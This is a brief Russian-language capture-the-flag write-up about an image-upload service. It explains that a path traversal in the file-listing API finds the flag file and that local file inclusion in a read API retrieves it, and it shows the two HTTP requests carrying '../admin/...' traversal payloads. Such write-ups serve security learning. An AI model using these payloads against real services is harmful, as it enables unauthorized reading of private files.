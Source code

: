 Можно грузить картинки и смотреть список своих картинок, а также создавать папки.

Трабла в том, что апишка листинга файлов уязвима к траверсалу — можно смотреть листинги в других директориях.
Так можно найти файл с флагом.
Затем с использованием другого API его можно выдернуть — LFI в URL.

```
POST /api/tree
dirpath=../admin/kekcoin_miner

POST /api/read
filename=../admin/kekcoin_miner/link.txt
```
